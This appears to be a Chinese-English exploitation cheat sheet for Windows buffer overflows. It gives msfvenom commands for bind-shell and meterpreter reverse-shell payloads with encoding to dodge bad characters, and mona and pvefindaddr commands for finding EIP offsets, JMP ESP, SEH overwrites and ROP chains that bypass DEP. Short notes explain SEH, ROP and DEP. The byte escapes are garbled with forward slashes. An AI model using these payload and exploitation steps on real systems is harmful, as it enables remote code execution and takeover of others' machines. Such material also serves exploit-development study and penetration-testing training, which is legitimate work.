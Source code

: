# Windows 缓冲区溢出利用命令
	msfvenom -p windows/shell_bind_tcp -a x86 --platform win -b "/x00" -f c
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=443 -a x86 --platform win -e x86/shikata_ga_nai -b "/x00" -f c
	
	COMMONLY USED BAD CHARACTERS:
	/x00/x0a/x0d/x20                              For http request
	/x00/x0a/x0d/x20/x1a/x2c/x2e/3a/x5c           Ending with (0/n/r_)

# 常用命令:
	pattern create
	pattern offset (EIP Address)
	pattern offset (ESP Address)
	add garbage upto EIP value and add (JMP ESP address) in EIP . (ESP = shellcode )
	
	!pvefindaddr pattern_create 5000
	!pvefindaddr suggest
	!pvefindaddr modules
	!pvefindaddr nosafeseh
	
	!mona config -set workingfolder C:/Mona/%p
	!mona config -get workingfolder
	!mona mod
	!mona bytearray -b "/x00/x0a"
	!mona pc 5000
	!mona po EIP
	!mona suggest


	# SEH – 结构化异常处理
	注：SEH(“Structured Exception Handling”)，即结构化异常处理，是 windows 操作系统提供给程序设计者的强有力的处理程序错误或异常的武器。
	
	# https://en.wikipedia.org/wiki/Microsoft-specific_exception_handling_mechanisms#SEH
	# http://baike.baidu.com/view/243131.htm
	!mona suggest
	!mona nosafeseh
	nseh="/xeb/x06/x90/x90" (next seh chain)
	iseh= !pvefindaddr p1 -n -o -i (POP POP RETRUN or POPr32,POPr32,RETN)
	ROP (DEP)
	注：ROP(“Return-Oriented Programming”)是计算机安全漏洞利用技术，该技术允许攻击者在安全防御的情况下执行代码，如不可执行的内存和代码签名。
	
	DEP(“Data Execution Prevention”)是一套软硬件技术，在内存上严格将代码和数据进行区分，防止数据当做代码执行。
	
	# https://en.wikipedia.org/wiki/Return-oriented_programming
	# https://zh.wikipedia.org/wiki/%E8%BF%94%E5%9B%9E%E5%AF%BC%E5%90%91%E7%BC%96%E7%A8%8B
	# https://en.wikipedia.org/wiki/Data_Execution_Prevention
	# http://baike.baidu.com/item/DEP/7694630
	!mona modules
	!mona ropfunc -m *.dll -cpb "/x00/x09/x0a"
	!mona rop -m *.dll -cpb "/x00/x09/x0a" (auto suggest)
	ASLR – 地址空间格局随机化	